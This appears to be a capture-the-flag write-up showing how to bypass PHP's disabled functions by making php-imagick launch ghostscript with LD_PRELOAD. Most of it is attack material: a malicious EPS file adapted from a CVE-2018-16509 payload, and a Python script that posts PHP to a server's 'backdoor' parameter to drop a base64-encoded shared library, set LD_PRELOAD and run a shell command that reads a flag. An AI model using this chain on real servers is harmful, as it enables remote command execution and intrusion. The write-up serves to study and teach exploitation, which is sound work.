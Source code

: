 When I check the default policy of Imagemagick 7, I found the ghostscript type `EPS` is missing in Imagemagick 6.

```xml
<policy domain="coder" rights="none" pattern="{PS,PS2,PS3,EPS,PDF,XPS}" />
```

Great! So let's create a EPS file and try to make Imagemagick 6 parse the image with ghostscript. Imagemagick determines the filetype based on both the filename extension and header. This one works for me. In fact, the payload is from CVE-2018-16509 and the RCE CVE does not work in this version of ghostscript.

```
%EPS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%yes) currentdevice putdeviceprops
```

Using php-imagick to open this file `new Imagick("a.eps");` will lead to lots of error message from ghostscript. Then we can exploit this one to trigger RCE! php-imagick will fork and then execve to execute ghostscript to parse the image, so it will load our malicious library through `LD_PRELOAD`. 


```python
#!/usr/bin/env python3
import requests
import base64

def b64(x):
    return base64.b64encode(x).decode()

# https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD/ 
# https://github.com/TarlogicSecurity/Chankro/
b = b64(open('./bypass_disablefunc_x64.so','rb').read())
s = requests.session()

payload = f'''
file_put_contents("/tmp/bcdcdfaed8c5764fc9c7215e95196e96/a.eps", "%EPS");
file_put_contents("/tmp/bcdcdfaed8c5764fc9c7215e95196e96/a.so", base64_decode("{b}"));
var_dump(glob('/tmp/bcdcdfaed8c5764fc9c7215e95196e96/*'));
'''
r = s.post('http://111.186.63.208:31340/', data=dict(backdoor=payload))
print(r.text)


payload = '''
putenv("EVIL_CMDLINE=sh -c /readflag$IFS>$IFS/tmp/bcdcdfaed8c5764fc9c7215e95196e96/pwn");
putenv("LD_PRELOAD=/tmp/bcdcdfaed8c5764fc9c7215e95196e96/a.so");
new Imagick("/tmp/bcdcdfaed8c5764fc9c7215e95196e96/a.eps");
var_dump(glob('/tmp/bcdcdfaed8c5764fc9c7215e95196e96/*'));
var_dump(file_get_contents('/tmp/bcdcdfaed8c5764fc9c7215e95196e96/pwn'));
'''
r = s.post('http://111.186.63.208:31340/', data=dict(backdoor=payload))
print(r.text)
```
